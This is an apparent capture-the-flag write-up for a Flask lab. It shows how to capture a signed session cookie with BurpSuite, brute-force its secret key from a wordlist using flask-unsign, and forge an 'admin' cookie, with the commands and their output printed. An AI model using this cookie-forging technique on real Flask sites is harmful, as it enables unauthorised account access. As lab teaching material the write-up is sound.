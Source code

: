 ```
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```
and these are possiple cookie names, which can potentially be a secret key. 
<img width="853" height="94" alt="Screenshot_2025-09-29_10-30-53" src="https://github.com/user-attachments/assets/6c0e2a4b-06ce-4fb0-8d3f-1f63596a59a0" />


For this room, I use the tool called `flask_unsign`
How to set up `flask_unsign`
```
sudo apt install pipx
pipx install flask_unsign
```
Or you can just use `pip3` 
The next thing is get the cookie token via `BurpSuite`
<img width="802" height="307" alt="Screenshot_2025-09-29_10-49-56" src="https://github.com/user-attachments/assets/8877b150-d97d-41c1-bc88-27f8168d5ab7" />

Now,, it is time to use `flask_unsign`
```
flask-unsign --decode -c  'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNlBQg.gRqWlBcHQX5XJ1-7cpWuLGfUKpA'                                   
{'very_auth': 'snickerdoodle'}
```
Extract all the cookie names into a list then use that list to find the secret key
```
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNlBQg.gRqWlBcHQX5XJ1-7cpWuLGfUKpA' --wordlist  keys.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 27 attemptscadamia
'gingersnap'
```
Next, I am going to forge a new token using the same tool
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'                                                   
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNndmw.h0_41Y-TmfQMZPhALSXbQ5TKUNs
```
<img width="1920" height="1080" alt="Screenshot_2025-09-29_11_18_39" src="https://github.com/user-attachments/assets/9313c318-ad87-45ad-ad79-43d6284c7b54" />

Done!!! Happy Hacking!!!!


